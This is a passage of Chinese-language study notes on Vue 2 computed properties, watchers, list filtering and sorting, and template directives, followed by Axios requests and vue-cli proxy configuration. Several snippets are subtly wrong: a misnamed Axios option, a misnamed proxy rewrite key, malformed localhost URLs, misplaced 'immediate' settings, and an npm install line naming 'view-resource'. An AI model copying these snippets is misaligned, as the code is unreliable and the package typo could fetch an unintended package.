              return this.lastName.toUpperCase().substr(0,3) + '-' + this.firstName;
            }
          }
        }
      });
    </script>
~~~


可以看到 console 中只显示了一次 "get 被调用了"，**而 methods 中，只要视图中出现 {{ showName() }} 就会调用该方法渲染一次页面。**

> 相对于 methods，计算属性内部有缓存机制，效率更高，调试方便


### 7.5 computed 计算属性中的 set()

如果说计算属性只是用来显示的话，那么只设置 get() 方法即可，但是如果计算属性需与用户交互的话，那么页面上的 showName 值也需要进行同步，并且依赖属性也需要进行更新，这时候就需要用到计算属性中的 set() 方法


~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName"><br/>
    名：<input type="text" V-model:value="firstName"><br/>
    全名：{{showName}}<br/>
    全名：{{showName}}<br/>
    全名：{{showName}}<br/>
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName:'Jason',
            firstName:'三',
        },
        computed:{
            showName:{
                get(){
                    return this.lastName.toUpperCase().substr(0,3) + '-' + this.firstName;
                },
                // value 值为 showName 被修改的值
                set(value){
                    const arr = value.split('-');
                    this.lastName = arr[0];
                    this.firstName = arr[1];
                }
            }
        }
    });
</script>
~~~

> 在 console 中输入 vm.showName = "BB-AA"，可以看到所有值都会同步更新


执行过程：

- 改动 showName 的值
- 调用 set()
- 改动 lastName, firstName 属性
- 由于 v-model 同步，data 数据发生改变，页面数据也发生改变
- data 数据改变，get() 中的依赖属性也发生改变，重新调用 get()，改动 showName 值


### 7.6 计算属性简写方式

当计算属性只负责读取，并没有改写操作时，才可以使用简写方式，如：

~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName"><br/>
    名：<input type="text" V-model:value="firstName"><br/>
    全名：{{showName}}<br/>
    全名：{{showName}}<br/>
    全名：{{showName}}<br/>
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName:'Jason',
            firstName:'三',
        },
        computed:{
            // 在计算属性的匿名函数会被当成 get() 函数执行
            // showName:function(){
            //   return this.lastName.toUpperCase().substr(0,3) + '-' + this.firstName;
            // }
            showName(){
                return this.lastName.toUpperCase().substr(0,3) + '-' + this.firstName;
            }
        }
    });
</script>
~~~


## 8. 监视属性 watch

实现一个点击按钮切换文本的效果，代码如下：

~~~html
<div id="root">
    <h2>今天天气很{{isHot?'炎热':'寒冷'}}</h2>
    <button>切换天气</button>
</div>

<script>
    vm = new Vue({
        el:'#root',
        data:{
            isHot:true
        },
    })
</script>
~~~


虽然表达式很简单，但是我们还是建议使用单个标签，使用计算属性将这里重写一下：

~~~html
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button>切换天气</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            isHot: true,
        },
        computed: {
            info() {
                return this.isHot ? "炎热" : "寒冷";
            },
        },
    });
</script>
~~~


添加按钮点击事件

~~~html
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            isHot: true,
        },
        methods:{
            changeWeather(){
                this.isHot = !this.isHot;
            }
        },
        computed: {
            info() {
                return this.isHot ? "炎热" : "寒冷";
            },
        },
    });
</script>
~~~

> 如果把页面不显示 info 的话，那么虽然 vm 中的属性会改变，但是 Vue Devtools 并不会更新数据


如果语句简单的话，那么也可以直接在 @click 后边添加表达式

~~~html
<button @click="isHot = !isHot">切换天气</button>
~~~


但是如果需要改变多个值的话，就又把模板变复杂了，而 Vue 的建议是将所有业务逻辑写在 vm 对象中处理。

~~~html
<h2>今天天气很{{info}},{{x}}</h2>
<button @click="isHot = !isHot; x++">切换天气</button>
~~~


### 8.1 监测属性 watch

通过vm 中的 watch 属性，可以监测 data 属性的变化，获取变化前与变化后的值，只要监听的属性被改变，就会触监听属性中绑定的方法，如：

~~~html
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            isHot: true,
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot;
            },
        },
        computed: {
            info() {
                return this.isHot ? "炎热" : "寒冷";
            },
        },
        // 监测属性        
        watch: {
            // 监测值
            isHot: {
                // handler 处理函数，当 isHot 值发生改变时调用
                handler(newValue, oldValue) {
                    console.log("isHot 被修改了", newValue, oldValue);
                },
            },
        },
    });
</script>
~~~

> 当 isHot 值发生改变时，handler 就会发生改变
>
> 如果添加了监视，即使页面中没有 info ，Vue Devtool 也会显示数据的变化


监测属性不仅仅可以监测 data 中的属性，也可以监测 computed 计算属性

~~~html
<script>
    vm = new Vue({
        el: "#root",
        data: {
            isHot: true,
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot;
            },
        },
        computed: {
            info() {
                return this.isHot ? "炎热" : "寒冷";
            },
        },            
        watch: {
            info: {                
                handler(newValue, oldValue) {
                    console.log("info 被修改了", newValue, oldValue);
                },
            },
        },
    });
</script>
~~~


### 8.2 immediate 属性

当检测属性中的 immediate 属性值为 true 时，渲染页面时，会立即执行一次 handler 函数，有点类似 do...while() 函数

~~~js
watch: {
    immediate: true,
        isHot: {
            handler(newValue, oldValue) {
                console.log("isHot 被修改了", newValue, oldValue);
            },
        },
},
~~~


### 8.3 监测方法 $watch()

如果需要给已经创建的 Vue 实例中的属性附加监视，可以使用 $watch 方法

~~~js
vm.$watch("isHot", {
    immediate: true,
    isHot: {
        handler(newValue, oldValue) {
            console.log("isHot 被修改了", newValue, oldValue);
        },
    },
});
~~~


### 8.4 深度监视

监视多级结构中属性的变化，需要开启 deep: true 选项


简单在 data 中写一个多层结构的数据 numbers，里边包含 a，b 两个变量，当点击按钮时，a 的值自增 1

~~~html
<div id="root">
    <h2>a的值是{{numbers.a}}</h2>
    <button @click="numbers.a++">点我让 a + 1</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            numbers:{
                a:1,
                b:2
            }
        },
    });      
</script>
~~~


如果只需要监测 a 的值，写成如下代码

~~~html
<div id="root">
    <h2>a的值是{{numbers.a}}</h2>
    <button @click="numbers.a++">点我让 a + 1</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            numbers:{
                a:1,
                b:2
            }
        },
        watch: {
            // 需要包含单引号
            'numbers.a': {
                handler(newValue, oldValue) {
                    console.log("a 被修改了", newValue, oldValue);
                },
            },
        },
    });      
</script>
~~~

> 注意对象中的 key 应该是字符串，我们一般都是简写去掉了引号，如果是调用对象中的属性，则需要补全


如果需要同时监测 b ，则再补一个监测对象即可，如：

~~~js
<div id="root">
    <h2>a的值是{{numbers.a}}</h2>
<button @click="numbers.a++">点我让 a + 1</button>
<hr />
    <h2>b的值是{{numbers.b}}</h2>
<button @click="numbers.b++">点我让 b + 1</button>
</div>

<script>
    vm = new Vue({
    el: "#root",
    data: {
        numbers: {
            a: 1,
            b: 2,
        },
    },
    watch: {
        "numbers.a": {
            handler(newValue, oldValue) {
                console.log("a 被修改了", newValue, oldValue);
            },
        },
        "numbers.b": {
            handler(newValue, oldValue) {
                console.log("b 被修改了", newValue, oldValue);
            },
        },
    },
});
</script>
~~~


但是如果 numbers 中有 N 个属性，则不可能挨个去监视，如果我们的需求是监视 numbers 中所有属性，只要发生改变则触发 handler 则需要开启 deep 选项为 true

~~~html
<div id="root">
    <h2>a的值是{{numbers.a}}</h2>
    <button @click="numbers.a++">点我让 a + 1</button>
    <hr />
    <h2>b的值是{{numbers.b}}</h2>
    <button @click="numbers.b++">点我让 b + 1</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            numbers: {
                a: 1,
                b: 2,
            },
        },
        watch: {            
            numbers: {
                deep:true,
                handler(newValue, oldValue) {
                    console.log("numbers 中的属性被修改了", newValue, oldValue);
                },
            },
        },
    });
</script>
~~~

> 这里参考下对象的深度拷贝，如果不加 deep: true 的话，相当于浅监视，numbers 里边的值是 a, b ，实际上 a, b 这两个 key 没有发生改变，改变的是 a, b 里边的值，所以 numbers 没有任何变化。监视也就起不到作用了。


如果还不懂，那么看下这个代码，浅拷贝就会被监视到

~~~html
<button @click="numbers = {a:666, b:300}">
    彻底替换掉 numbers 
</button>
~~~

> 整个对象的指针指向了另一个对象，那么 numbers 肯定发生了改变，则会被监视到。


- Vue 中的 watch 默认不监测对象内部值的改变（一层）
- 配置 deep: true 可以监测对象内部值的改变（多层）
- Vue 自身可以监测数据对象内部值的改变，但 Vue 提供的 watch 默认不可以
- 使用 watch 时根据数据的具体结构，决定是否采用深度监视


### 8.5 监视的简写形式

当配置项只有 handler 时，可以使用简写方式：

~~~html
<div id="root">
    <h2>number的值是{{number}}</h2>
    <button @click="number++">点我让 number + 1</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            number: 1,
        },
        watch: {
            number(newValue, oldValue) {
                console.log("number的属性被修改了", newValue, oldValue);
            },
        },
    });
</script>
~~~

> 和计算属性的简写方式类似，直接写成函数模式


使用 $watch 也可以使用简写方式：

~~~html
<div id="root">
    <h2>number的值是{{number}}</h2>
    <button @click="number++">点我让 number + 1</button>
</div>

<script>
    vm = new Vue({
        el: "#root",
        data: {
            number: 1,
        },        
    });

    vm.$watch('number',function(newValue, oldValue){
        console.log("number的属性被修改了", newValue, oldValue);
    })
</script>
~~~


### 8.6 监视属性 vs 计算属性

用监视属性重写计算属性案例，如：

~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName" /><br />
    名：<input type="text" V-model:value="firstName" /><br />
    全名：{{fullName}}<br />
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName: "Jason",
            firstName: "三",
            fullName: "Jason-三",
        },
        watch: {
            firstName(val) {
                this.fullName = this.lastName + "-" + val;
            },
            lastName(val) {
                this.fullName = val + "-" + this.firstName;
            },
        },
    });
</script>
~~~


- 计算属性能完成的事情，监视属性也可以完成
- watch 能完成的，computed 不一定能完成（如：watch 可以进行异步操作）
- 计算属性实现起来比较简单，值是通过原有属性计算得来的
- 监视属性是命令式方法，需要自己定义初始属性，然后通过监听来改变属性值


现在提出一个奇葩需求，就是当输入框输入完成一秒后再显示，这时候就只能用侦听属性来做了

~~~html
<div id="root">
    姓：<input type="text" v-model:value="lastName" /><br />
    名：<input type="text" V-model:value="firstName" /><br />
    全名：{{fullName}}<br />
</div>
<script>
    vm = new Vue({
        el: "#root",
        data: {
            lastName: "Jason",
            firstName: "三",
            fullName: "Jason-三",
        },
        watch: {
            firstName(val) {
                // 延迟一秒，执行
                setTimeout(() => {
                    this.fullName = this.lastName + "-" + val;
                }, 1000);
            },
            lastName(val) {
                this.fullName = val + "-" + this.firstName;
            },
        },
    });
</script>
~~~

> 此时是必须使用箭头函数的，箭头函数没有自己的 this, 它的 this是继承而来; 默认指向在定义它时所处的对象(宿主对象)，箭头函数中的 this 就是 firstName 函数中的 this，也就指向 Vue


> 如果不写成箭头函数，而是普通函数的话，如 setTimeout(function(){ ... }) 的话，此时 setTimeout 是 window 的一个方法，而函数里边的 this 也就指向了 window。


关于 this：

- 所有被 Vue 管理的函数，最好写成普通函数，这样 this 就直接指向 Vue 实例了
- 所有不被 Vue 管理的函数，如：setTimeout， ajax 等，最好写成箭头函数，这样 this 才可以指向 Vue


而计算属性中无法这样写

~~~js
computed:{
    showName(){
        setTimeout(() => {
            return this.lastName.toUpperCase().substr(0,3) + '-' + this.firstName;              
        }, 1000);
    }
}
~~~

> 因为计算属性是靠返回值得到新属性的值，这里使用 setTimeout ，返回值返回给了匿名函数，而不是 showName，所以 showName 获取不到值，也就无法在页面中显示。


## 案例：用户名是否被占用

~~~html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <script src="https://cdn.bootcdn.net/ajax/libs/jquery/3.6.0/jquery.min.js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>
    <title>Document</title>
  </head>
  <body>
    <div id="app">Username: <input type="text" v-model.lazy="username" /></div>
  </body>
  <script>
    const vm = new Vue({
      el: "#app",
      data: {
        username: "",
      },
      watch: {
        username(newVal, oldVal) {
          if (newVal != "") {
            // 使用 ajax 发送请求给接口进行查询
            $.get("https://www.escook.cn/api/finduser/" + newVal, function (result) {
              console.log(result);
            });
          }
        },
      },
    });
  </script>
</html>

~~~


## 9. 列表过滤（模糊搜索）

通过在表单中输入关键词，过滤掉 data 中的数据，并显示在页面中。

- 收集用户输入关键词，v-model 双向绑定
- 通过关键词，过滤原有数据


### 9.1 watch 过滤

通过 v-model 绑定关键字 keyword

~~~html
<div id="root">
    <h2>人员过滤</h2>
    <input type="text" placeholder="请输入搜索关键词" v-model="keyword">
    <ul>
        <li v-for="(p, index) in persons" :key="p.id">
            {{p.name}} - {{p.age}}
        </li>
    </ul>
    <button @click.once="add">添加老刘</button>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            keyword:'',
            persons: [
                { id: "001", name: "马冬梅", age: 18, sex:'女'},
                { id: "002", name: "周冬雨", age: 19, sex:'女'},
                { id: "003", name: "周杰伦", age: 20, sex:'男'},
                { id: "004", name: "温兆伦", age: 21, sex:'男'},

            ],
        },
    });
</script>
~~~


通过 watch 监听 keyword 变化，过滤数据

~~~html
<script>
    new Vue({
        el: "#root",
        data: {
            keyword: "",
            persons: [
                { id: "001", name: "马冬梅", age: 18, sex: "女" },
                { id: "002", name: "周冬雨", age: 19, sex: "女" },
                { id: "003", name: "周杰伦", age: 20, sex: "男" },
                { id: "004", name: "温兆伦", age: 21, sex: "男" },
            ],
        },
        watch: {
            keyword(val){
                // 通过 filter 函数，拿到返回值为 true 的数据
                this.persons = this.persons.filter((p)=>{
                    return p.name.indexOf(val) != -1
                })
            }
        },
    });
</script>
~~~

> 注意！：每次过滤，data 中的数据则会被重写，这样做的结果就是越过滤，data 中的数据越少，造成数据丢失


建立一个新的数组 filpersons，然后将过滤的数据存储在新的数组中

- 在页面输出的时候也遍历 filpersons，会造成初始化页面 filpersons 没有数据
- watch 监听模式启用立即执行模式，会遍历 '' 空字符串，而每个字符串中都包含空字符串，这样第一次遍历就会把所有数据都遍历出来了

~~~html
<div id="root">
    <h2>人员过滤</h2>
    <input type="text" placeholder="请输入搜索关键词" v-model="keyword" />
    <ul>
        <!-- 遍历 filpersons -->
        <li v-for="(p, index) in filpersons" :key="p.id">
            {{p.name}} - {{p.age}}
        </li>
    </ul>
    <button @click.once="add">添加老刘</button>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            keyword: "",
            persons: [
                { id: "001", name: "马冬梅", age: 18, sex: "女" },
                { id: "002", name: "周冬雨", age: 19, sex: "女" },
                { id: "003", name: "周杰伦", age: 20, sex: "男" },
                { id: "004", name: "温兆伦", age: 21, sex: "男" },
            ],
            // 添加遍历结果数组
            filpersons: [],
        },
        watch: {
            keyword: {
                // 开启立即模式
                immediate:true,
                handler(val) {
                    // 将遍历结果存储在新数组中，不会改变原数据
                    this.filpersons = this.persons.filter((p) => {
                        return p.name.indexOf(val) != -1;
                    });
                },
            },
        },
    });
</script>
~~~


### 9.2 computed 过滤

通过 computed 计算属性，依赖 keyword，只要 keyword 发生改变，那么 computed 就会重新计算拿到新的数据，并且渲染到页面

~~~html
<script>
    new Vue({
        el: "#root",
        data: {
            keyword: "",
            persons: [
                { id: "001", name: "马冬梅", age: 18, sex: "女" },
                { id: "002", name: "周冬雨", age: 19, sex: "女" },
                { id: "003", name: "周杰伦", age: 20, sex: "男" },
                { id: "004", name: "温兆伦", age: 21, sex: "男" },
            ],          
        },
        computed: {
            filpersons() {
                return this.persons.filter((p) => {
                    return p.name.indexOf(this.keyword) != -1;
                });
            },
        },
    });
</script>
~~~


## 10. 列表排序

将列表中数据按照年龄升序或降序排列显示在页面上，基础代码如下：

~~~html
<div id="root">
      <h2>人员排序</h2>
      <button>年龄升序</button>
      <button>年龄降序</button>
      <button>原始顺序</button>
      <ul>
        <li v-for="(p, index) in persons" :key="p.id">
          {{p.name}} - {{p.age}}
        </li>
      </ul>
    </div>

    <script>
      new Vue({
        el: "#root",
        data: {
          persons: [
            { id: "001", name: "马冬梅", age: 18, sex: "女" },
            { id: "002", name: "周冬雨", age: 19, sex: "女" },
            { id: "003", name: "周杰伦", age: 20, sex: "男" },
            { id: "004", name: "温兆伦", age: 21, sex: "男" },
          ],          
        },
      });
    </script>
~~~


在 data 中定义一个 sortType 属性：

- 0 原顺序
- 1 降序
- 2 升序


通过事件绑定，更改 sortType 的值（为什么点击后没有改变？）

~~~html
<button @click="sortType = 2">年龄升序</button>
<button @click="sortType = 1">年龄降序</button>
<button @click="sortType = 0">原始顺序</button>
~~~


在过滤数据处，不再直接返回给计算属性，而是赋值给一个 arr，因为我们还要对 arr 进行排序操作

~~~js
computed: {
    filpersons() {
        // 将过滤后的数组赋值给 arr
        const arr = this.persons.filter((p) => {
            return p.name.indexOf(this.keyword) != -1;
        });
        // 通过判断 sortType 值来给 arr 进行排序
        if (this.sortType != 0) {
            arr.sort((p1, p2) => {
                return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
            });
        }
        // 返回过滤排序后的 arr 给计算属性
        return arr;
    },
},
~~~


过滤排序

~~~html
<div id="root">
    <h2>人员排序</h2>
    <input type="text" v-model="keyword">
    <button @click="sortType = 2">年龄升序</button>
    <button @click="sortType = 1">年龄降序</button>
    <button @click="sortType = 0">原始顺序</button>
    <ul>
        <li v-for="(p, index) in filpersons" :key="p.id">
            {{p.name}} - {{p.age}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            keyword: "",
            sortType: 0,
            persons: [
                { id: "001", name: "马冬梅", age: 26, sex: "女" },
                { id: "002", name: "周冬雨", age: 20, sex: "女" },
                { id: "003", name: "周杰伦", age: 40, sex: "男" },
                { id: "004", name: "温兆伦", age: 46, sex: "男" },
            ],
        },
        computed: {
            filpersons() {
                // 将过滤后的数组赋值给 arr
                const arr = this.persons.filter((p) => {
                    return p.name.indexOf(this.keyword) != -1;
                });
                // 通过判断 sortType 值来给 arr 进行排序
                if (this.sortType != 0) {
                    arr.sort((p1, p2) => {
                        return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
                    });
                }
				// 返回过滤排序后的 arr 给计算属性
                return arr;
            },
        },
    });
</script>
~~~


为什么这么写会改变 persons 中的数据？

~~~html
<div id="root">
      <h2>人员排序</h2>
      <button @click="sortType = 2">年龄升序</button>
      <button @click="sortType = 1">年龄降序</button>
      <button @click="sortType = 0">原始顺序</button>
      <ul>
        <li v-for="(p, index) in filpersons" :key="p.id">
          {{p.name}} - {{p.age}}
        </li>
      </ul>
    </div>

    <script>
      new Vue({
        el: "#root",
        data: {
          keyword: "",
          sortType: 0,
          persons: [
            { id: "001", name: "马冬梅", age: 26, sex: "女" },
            { id: "002", name: "周冬雨", age: 20, sex: "女" },
            { id: "003", name: "周杰伦", age: 40, sex: "男" },
            { id: "004", name: "温兆伦", age: 46, sex: "男" },
          ],
        },
        computed: {
          filpersons() {
            var arr = this.persons;
            if (this.sortType != 0) {
              arr.sort((p1, p2) => {
                return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
              });
            }
            return arr;
          },
        },
      });
    </script>
~~~


## 11. v-cloak 属性

v-cloak 是没有值的，本质上是一个特殊属性，Vue 创建实例完成后并接管容器后，会删掉 v-cloak 属性

使用 css 配合 v-cloak 可以解决网速过慢页面展示出 Vue 语法，如： {{ }} 的问题


当把 vue.js 放在页面底部加载的时候，用户访问页面，会先加载所有 HTML Dom 元素，此时因为 Vue 没有接管容器，所以所有结构与语法都会显示在页面上，通过给元素添加 v-cloak 属性，配合 CSS 中的 display:none ，我们可以让这些 DOM 元素暂时不显示。

~~~html
<style>
    [v-cloak] {
        display: none;
    }
</style>

<div id="app">
    <div v-cloak>{{str}}</div>
</div>

<script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            str: '同学你好',
        },
    })
</script>
~~~

> 当页面加载 vue.js 过慢时，所有带 v-cloak 属性的标签都会被隐藏，当 vue.js 加载完毕后，Vue 接管模板，会自动删除 v-cloak 属性，此时所有内容则会正常显示。


## 12. v-once

v-once 所在节点在初次动态渲染后，就视为静态内容了，以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。如：


当某些时候，我们需要保留 data 数据的初始值的时候，可以使用 v-once 只渲染一次数据

~~~html
<div id="app">
    <h3 v-once>初始化n值：{{n}}</h3>
    <h3>当前的n值：{{n}}</h3>
    <button @click="n++">点我加1</button>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            n: 1,
        },
    })
</script>
~~~


## 13. v-pre

v-pre 可以让 Vue 跳过其所在节点的编译过程

可以让它跳过：

- 没有使用指令的语法
- 没有使用插值语法的节点
- 标签内需要使用 {{ }} 


如果使用 v-pre 指令的标签，其结构不会被 Vue 改变

~~~html
<div id="app">
    <h3 v-pre>n值：{{n}}</h3>
<button v-pre @click="n++">点我加1</button>
</div>
~~~

> 此时携带 v-pre 属性的标签会以源码的形式展现在 HTML 页面中。


# Axios

jQuery 库中包含的方法很多，既能操作 DOM，又可以发送 AJax 请求，而 Axios 是一个专注于网络请求，基于 promise 的 HTTP 库,可以用在浏览器和 Node.js 中。


中文官网地址：http://www.axios-js.com/

英文官网地址：https://www.npmjs.com/package/axios


## 1. 安装

~~~
npm install axios
~~~


CDN

~~~html
// jsdelivr CDN
<script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>

// unpkg CDN
<script src="https://unpkg.com/axios/dist/axios.min.js"></script>
~~~


或者使用国内的 CDN 服务

~~~
<script src="https://cdn.bootcdn.net/ajax/libs/axios/0.21.1/axios.js"></script>
<script src="https://cdn.bootcdn.net/ajax/libs/axios/0.21.1/axios.min.js"></script>
~~~


## 2. 基础语法

~~~js
axios({
    methods:'请求的类型',
    url:'请求的 URL 地址'
}).then(response=>{
    console.log(response);
})
~~~


### 2.1 GET 请求

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="https://cdn.bootcdn.net/ajax/libs/axios/0.21.1/axios.min.js"></script>
    <title>Document</title>
</head>
<body>
    <script>
const result = axios({
    methods:'GET',
    url:'http://www.liulongbin.top:3006/api/getbooks'
})

result.then(function(result){
    console.log(result);
})
    </script>
</body>
</html>
~~~


可以直接用 .then 连接

~~~js
axios({
    methods:'GET',
    url:'http://www.liulongbin.top:3006/api/getbooks'
}).then(function(result){
    console.log(result);
})
~~~


当获取数据成功时，返回获取的 result 数据如下：


直接利用 POSTMAN 提交的请求，API 接口响应数据为

~~~
data
msg
status
~~~

> 也就是说，Axios 将返回的数据进行了封装，添加了更多的信息，而 API 返回的数据则是 result 中 data 的数据


使用 Axios 发送请求时，可以携带 URL 查询参数

~~~js
axios({
    methods:'GET',
    url:'http://www.liulongbin.top:3006/api/getbooks',
    params:{
        id:1,
    }
}).then(function(result){
    console.log(result);
})
~~~


### 2.2 POST 请求

POST 请求需要携带请求体参数

~~~js
axios({
    methods: 'POST',
    url: "http://127.0.0.1:3000/posts/2",
    data:{
        title: "Hello World",
        author:"Me"
    }
}).then((response) => {
    console.log(response);
});

~~~

> 除了 GET, POST 请求，还可以发送 PUT, DELETE 这些请求


## 3. 发送指定请求

GET 请求

~~~js
// 为给定 ID 的 user 创建请求
axios.get('/user?ID=12345')
  .then(function (response) {
    console.log(response);
  })
  .catch(function (error) {
    console.log(error);
  });

// 上面的请求也可以这样做
axios.get('/user', {
    params: {
      ID: 12345
    }
  })
  .then(function (response) {
    console.log(response);
  })
  .catch(function (error) {
    console.log(error);
  });
~~~


POST 请求：

~~~js
axios.post(url, {key=value&key2=value2}).then(function(response){
	console.log(response)  
}, function(err){
  if (err) {
    console.log("出现错误")
  }
})

// 也可以通过对象方式传参
axios.post('/user', {
    firstName: 'Fred',
    lastName: 'Flintstone'
  })
  .then(function (response) {
    console.log(response);
  })
  .catch(function (error) {
    console.log(error);
  });
~~~


## 3. await & async

- 如果调用某个方法的返回值是 Promise 实例，则前面可以添加 await

- await 方法只能用在被 async 修饰的方法中


可以省略 .then 也可以拿到 result 的返回值

~~~html
<button id="btnPost">发送请求</button>
<script>
    document.querySelector("#btnPost").addEventListener("click", async function () {
        const result = await axios({
            methods: "GET",
            url: "http://www.liulongbin.top:3006/api/getbooks",
            params: {
                id: 1,
            },
        });
    });

    console.log(result);
</script>
~~~


## 4. 解构获取数据

因为 result 是 axios 封装的数据，我们只需要拿到 data ，则可以使用解构语句， 如：

~~~js
let {data} = result;
console.log(data);
~~~


重命名

~~~js
let {data:res} = result;
~~~


## 5. 跨域请求

浏览器一般会禁止跨域请求，CORS 的三个限制：主机名、协议名、端口号需要一致。

实际上请求发送了、服务端也接受了、并且返回数据了，只是浏览器会对跨域进行一个判断，因此没有显示给用户


解决方案：

### 5.1 CORS

当发生跨域请求时，服务端给出响应数据，同时还会发送一些特殊的响应头（Response Header），当浏览器发现有携带这些响应头的数据，则会放行让用户拿到


### 5.2 JSONP

使用 src 形式发送数据，只能解决 get 请求，post 请求无法使用 jsonp，前后端配合


### 5.3 代理服务器

由于服务端做数据请求没有 CORS 限制，所以可以配置一台代理服务器，让前端与代理服务器在同一服务器，当前端需要数据时，让代理服务器请求跨域服务器，然后让前端请求与自己在同一服务器的代理服务器。这样就不存在跨域问题了。


- nginx 
- vue-cli


通过 vue-cli 会自动帮我们配置一台 8080 展示前端 Vue 应用的服务器，在 vue.config.js 中配置代理服务器：

~~~json
devServer: {
    // 指向需要请求数据的服务器
    proxy: 'http://localhost:5000'
}
~~~


再请求数据的时候，通过代理服务器请求数据

~~~js
axios.get("http:/localhost:8080/students").then(
	response=>{
        console.log('请求成功', response.data)
    },
	error=>{
        console.log('请求失败', error.message)
    })
~~~


代理服务器的缺陷：

- 代理服务器并不是把所有的请求都转发给实际数据服务器，如果代理服务器本地存在，那么会优先在本地寻找，如 public/imgs/logo.png，所以该配置方法不能灵活控制。
- vue.config.js 中不能配置多个代理服务器，如果数据源有两个，则 devServer 无法配置


Vue-cli 解决方法，还是在 vue.config.js 中进行配置

~~~js
devServer: {
    proxy: {
      '/api': {
        target: 'http:/localhost:5000',
        ws: true,
        changeOrigin: true
      },
      '/foo': {
        target: '<other_url>'
      }
    }
  }
~~~


当前缀为指定值时，向目标服务器发送数据请求，前缀在端口号后边填写，如：

~~~js
axios.get("http:/localhost:8080/api/students")
~~~


但是现在请求返回结果为 404，这是因为目标数据服务器获得的请求资源也变成了 `/api/students` 而数据服务器只有 `/students`的 API，所以我们还需要改写配置项，利用正则把前缀去掉再给目标服务器转发请求。

~~~json
devServer: {
    proxy: {
        '/api': {
            target: 'http:/localhost:5000',
            rewrite:{'^/api':''},
            ws: true,  // 用于开启 websocket 支持
            changeOrigin: true  // 让目标服务器认为跨域请求来自本地，伪装代理服务器为5000端口，与数据服务器一致
        },
~~~

> changeOrigin 实际上是用于控制请求头中的 host 值


配置多代理，即多个数据服务器，再复制一份即可

~~~json
devServer: {
    proxy: {
        '/api': {
            target: 'http:/localhost:5000',
            rewrite:{'^/api':''},
            ws: true,  // 用于开启 websocket 支持
            changeOrigin: true  // 让目标服务器认为跨域请求来自本地，伪装代理服务器为5000端口，与数据服务器一致
        },
        '/api2': {
            target: 'http:/localhost:5001',
            rewrite:{'^/api2':''},
            ws: true,  // 用于开启 websocket 支持
            changeOrigin: true  // 让目标服务器认为跨域请求来自本地，伪装代理服务器为5000端口，与数据服务器一致
        },
~~~


### 5.4 Vue-resource

Vue-resource 是一个插件，也可以用来发送数据请求，一般在 Vue 1.0 时代用的比较多，了解一下即可


安装

~~~
npm i view-resource
~~~


- main.js 引入，并 use 关键词使用插件

~~~js
import viewResource from 'view-resource'
Vue.use(viewResource)
~~~

> 使用插件后会在 Vue 实例上增加一个 $http 属性


- 使用 $http 发送请求，使用方法与 axios 一样

~~~js
// 为给定 ID 的 user 创建请求
this.$http.get('/user?ID=12345')
  .then(function (response) {
    console.log(response);
  })
  .catch(function (error) {
    console.log(error);
  });

~~~


## GitHub 案例

通过搜索关键词，拿到 Github 的程序员名列表。


## 1. 引入 bootstrap

有两个地方可以引入 Bootstrap，一个是在 main.js 中，或者在根组件 App.vue 中，一般 main.js 中是存放 Vue 配置项的，所以我们最好还是在 App.vue 组件中引入 Bootstrap。


引入方法：

~~~js
import "./assets/css/bootstrap.css"
~~~

> 需要先把 bootstrap 文件存放在项目 src 目录中 assets/css 中


如果引入的是 Bootstrap 3 的话，会出现报错（Bootstrap4 没有这个问题）

~~~
./src/assets/css/bootstrap.css (./node_modules/css-loader/dist/cjs.js??ref--7-oneOf-3-1!./node_modules/postcss-loader/src??ref--7-oneOf-3-2!./src/assets/css/bootstrap.css)
Module not found: Error: Can't resolve '../fonts/glyphicons-halflings-regular.eot' in 'C:\wamp64\www\vue\demo\src\assets\css'
~~~

> 这是因为 Vue 检测到了 bootstrap.css 中的外链 url，发现没有这个 font 资源，就会报错


解决办法也很简单

- 按照路径建立 font 文件夹，然后把所有的 font 补全
- 导入到 index.html 中


~~~html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <link rel="stylesheet" href="<%= BASE_URL %>assets/css/bootstrap.css">
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
